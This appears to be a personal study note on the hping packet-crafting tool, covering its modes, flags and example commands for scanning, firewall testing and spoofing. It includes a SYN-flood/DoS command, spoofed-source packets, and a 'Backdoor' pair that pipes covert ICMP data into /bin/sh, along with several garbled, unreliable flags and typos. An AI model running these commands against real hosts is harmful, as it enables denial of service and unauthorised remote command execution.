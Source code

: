 ```yaml
---
title: Meow's Testing Tools - hping
date: 2019-09-17 11:11:11 -0400
categories: [1CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# hping

[toc]

---

# Hping
- Hping (Hping2 or Hping3) is another powerful tool for both ping sweeps and port scans
  - a handy packet-crafting tool for TCP/IP.
  - works on Windows and Linux versions
  - runs nearly any scan Nmap can put out.
  - downside, command-line-only tool.


- a command-line TCP/IP packet assembler and analyzer tool
- send customized TCP/IP packets and display the target reply as ping command display the `ICMP Echo Reply packet` from targeted host.
- Hping can also handle fragmentation, arbitrary packets body, and size and file transfer.
- It supports `TCP, UDP, ICMP and RAW-IP` protocols.
- Using Hping, the following parameters can be performed:
  - Test firewall rules.
  - Advanced port scanning.
  - Testing net performance.
  - Path MTU discovery.
  - Transferring files between even fascist firewall rules.
  - Traceroute-like under different protocols.
  - Remote OG fingerprinting & others.

￼![Screen Shot 2019-12-02 at 14.38.32](https://i.imgur.com/dLaXTxs.png)
￼
`-i` –interval wait (uX for X microseconds, for example -i u1000)

Modede

fault mode TCP
- `-0`: RAW IP mode
- `-1`: ICMP mode
- `-2`: UDP mode
- `-8`: SCAN mode.
- `-9`: listen mode

![page91image152294272](https://i.imgur.com/xEaDBuv.jpg)


- Hping 設定SYN Flag, (收到SYC/ACK代表Port有開)
  - 目標怎麼回代表防火牆是open
  - `Hping 10.1.1.1 –c2 –S(SYN) –p21 -n`
  - *Port open*：`SYN/ACK`
  - *Port closed*：`ICMP Unreachable type 13`  *packet filter firewall*

---

## Example

`hpings –A IP` create an ACK packet:

![Pasted Graphic 4](https://i.imgur.com/Q53gnqB.png)

`hpings -8 1-600 –S IP`: create GVN scan against different ports:

￼![Pasted Graphic 5](https://i.imgur.com/fNu5d8z.png)

spoof source IP addresses and source ports.
`hping3 -a 10.8.8.8 -S  springfield   -c 2 -p 80`

Dos Attack:
`hping3 -i ul -S -p 80 192.168.1.10`

Pings (ICMP echo requests) being blocked:
`hping3 -S  www.baidu.ss -p 80`


Uptime: `hping2 -p 80 -S --tcp-timestamp host`

PortScan: `hping –I eth0 --scan 20-25,80,443 -S host`

Synflood: `hping –p 80 –i u10000 –a source –S host`


Backdoor:

S-: `hping3 -I eth1 -9 secret | /bin/sh`

C-: `hping3 -R ip -e secret -E command_file -d 100 -c 1`










.

